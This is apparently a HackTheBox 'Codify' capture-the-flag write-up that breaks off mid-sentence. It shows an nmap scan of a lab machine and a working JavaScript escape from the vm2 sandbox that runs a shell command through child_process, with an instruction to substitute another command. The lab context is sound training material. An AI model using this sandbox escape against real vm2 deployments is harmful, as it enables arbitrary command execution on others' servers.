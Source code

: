 ```yaml
---
title: "HackTheBox - Codify"
date: 2024-01-27 10:30:00 +0700
categories: [HackTheBox, Machines]
tags: [easy]
# image:
#     path: /assets/img/htb/Lame.png
#     alt: Lame - HackTheBox
---
```


## 1
```bash
nmap -sCVS -Pn -T4 -oN nmap.txt 10.10.11.233
```
The result is `22/tcp`,`80/tcp`,`3000/tcp`
## 2
Go to your browser, and paste the IP address. In the website, click About us navigation. Under about us there is about our code editor, there is hyperlink text that leads to a website, the website shows a version of the code editor.
After that, search on google `vm {version} exploit`[cuy](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244). Choose the one at the top, if possible, the one from the GitHub website. there is a code that has been given by someone, but the code is still wrong.
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
Examine the code, then you will find the Linux command. If you have found it, change the command with ``